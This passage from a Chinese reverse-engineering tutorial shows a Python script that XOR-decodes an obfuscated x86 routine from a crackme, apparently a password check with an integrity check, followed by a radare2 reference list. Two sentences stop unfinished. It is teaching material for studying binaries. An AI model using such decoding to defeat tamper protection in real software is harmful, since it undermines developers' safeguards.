0x5E, 0x76]

clean = []
for i in range(len(obfuscated)/4):
    # 建立一个32位字
    chunk = (obfuscated[4*i+3] << 24) + (obfuscated[4*i+2] << 16) + (obfuscated[4*i+1] << 8) + obfuscated[4*i]
    # 按32位字进行异或操作
    decoded = chunk ^ 0x08048fc1
    # 存放最低位字节
    clean.append(decoded & 0xff)
    # 存放次低位字节
    clean.append((decoded & 0xff00) >> 8)
    # 存放次高位字节
    clean.append((decoded & 0xff0000) >> 16)
    # 存放最高位字节
    clean.append((decoded & 0xff000000) >> 24)

print(' '.join(map (lambda i: "%02x" % i, clean)))
```

得到的序列为：
```
 bb 01 00 00 00 b9 3d 82 04 08 ba 14 00 00 00 e8 b5 00 00 00 bb 00 00 00 00 b9 51 82 04 08 ba 80 00 00 00 e8 a9 00 00 00 bb 51 82 04 08 01 c3 4b c6 03 00 c3 b8 51 82 04 08 80 38 00 74 06 80 30 fc 40 eb f5 c3 b8 51 82 04 08 bb d1 82 04 08 8a 08 3a 0b 75 09 80 f9 00 74 1d 40 43 eb f1 bb 01 00 00 00 b9 07 82 04 08 ba 16 00 00 00 e8 57 00 00 00 e8 62 00 00 00 bb 01 00 00 00 b9 e4 81 04 08 ba 23 00 00 00 e8 3e 00 00 00 e8 49 00 00 00 31 c0 bb 60 80 04 08 81 fb e4 82 04 08 74 07 33 03 83 c3 04 eb f1 bb e4 82 04 08 3b 03 74 19 bb 01 00 00 00 b9 1d 82 04 08 ba 20 00 00 00 e8 06 00 00 00 e8 11 00 00 00 c3 b8 04 00 00 00 cd 80 c3 b8 03 00 00 00 cd 80 c3 b8 01 00 00 00 cd 80 47 72 61 74 7a 2c 20 74 68 69 73 20 69 73 20 74 68 65 20 67 6f 6f 64 20 70 61 73 73 77 6f 72 64 20 21 0a 42 61 64 20 70 61 73 73 77 6f 72 64 2c 20 73 6f 72 72 79 20 21 0a 51 55 49 54 20 21 20 45 78 65 63 75 74 61 62 6c 65 20 69 73 20 6d 6f 64 69 66 69 65 64 20 21 0a 45 6e 74 65 72 20 74 68 65 20 70 61 73 73 77 6f 72 64 3a 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a5 cf 9d b4 dd 88 b4 95 af 95 af 88 b4 cf 97 b9 85 dd 00 0a 6f 5a 7e
```

将这段指令码放入

如果我们要调试程序，


## 参考文献

- https://www.megabeets.net/a-journey-into-radare-2-part-1/
- https://github.com/ifding/radare2-tutorial
- https://www.airs.com/blog/archives/38
- http://docs.pwntools.com/en/stable/index.html
- https://monosource.gitbooks.io/radare2-explorations/content/tut1/tut1_-_simple_patch.html
- https://monosource.gitbooks.io/radare2-explorations/content/intro/projects.html